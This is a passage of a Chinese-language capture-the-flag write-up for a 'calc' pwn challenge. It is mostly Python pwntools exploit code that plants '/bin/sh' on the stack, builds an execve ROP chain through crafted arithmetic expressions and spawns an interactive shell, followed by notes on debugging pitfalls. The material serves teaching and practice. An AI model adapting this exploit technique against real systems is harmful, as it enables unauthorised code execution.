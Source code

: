 ```python
        payload: *701+1845554944+6845231
        """
        binsh = [u32("/bin"), u32("/sh\0")] # 0x6e69622f, 0x0068732f
        sent_number = [binsh[0]-binsh[1], binsh[1]]
        self.payload = "*701+%d+%d\n" % (sent_number[0], sent_number[1])
        self.p.send(self.payload)
        assert p32(int(self.p.recvline(), 10)) == "/bin"
        
        self.binsh_addr = self.calc_ebp - 0x5a0 + 700 * 4
        print("write '/bin/sh': %s" % hex(self.binsh_addr) )

    def ROP(self):
        addr1 = 0x0805c34b      # pop eax; ret
        addr2 = 0x080701d1      # pop ecx; pop ebx; ret
        addr3 = 0x080701aa      # pop edx; ret
        addr4 = 0x08049a21      # int 0x80
        stack = [addr1, 0xb, addr2, 0x0, -0x100000000 + self.binsh_addr, addr3, 0x0, addr4]
        n = [ stack[i+1] + stack[i] for i in range(7)] + [ stack[7] ]
        assert n[3] < 0
        self.payload = "*361-1*%d-1*%d-1*%d-1*%d+%d+%d" % \
            (n[0], n[1], n[2], -n[3], 0x80000000+n[3], 0x80000000+n[3])
        if n[4] > 0:
            self.payload += "-1*%d" % n[4]
        else:
            self.payload += "-1*%d+%d+%d" % (-n[4], 0x80000000 + n[4], 0x80000000 + n[4] )
        self.payload += "-1*%d-1*%d-1*%d\n" % (n[5], n[6], n[7])
        self.p.send(self.payload)
        self.p.recvline()
    
    def get_shell(self):
        self.p.send("illegal")
        self.p.interactive()

    def pwn(self):
        print("----------begin-----------")
        self.p.recvline()
        self.leak_ebp()
        self.write_binsh()
        self.ROP()
        self.get_shell()
        self.p.wait_for_close()
        print("-----------end------------")


if __name__ == "__main__":
    s = Challenge(True)
    s.pwn()
```

写 `exp` 最后 debug 的时候有以下的几个坑点：

1. 我们利用乘法优先级比较高的特性，可以构造 `1*addr` 这样的表达式将上面的地址全部按顺序压入栈中。但是问题是 `adstr` 是一个负数，用这种方式压栈会出现表达式错误（`*-` 两个运算符同时出现）。
2. `/bin/sh` 这个字符串不能写在 `calc` 这个函数的局部变量区，因为每次循环时会被初始化。

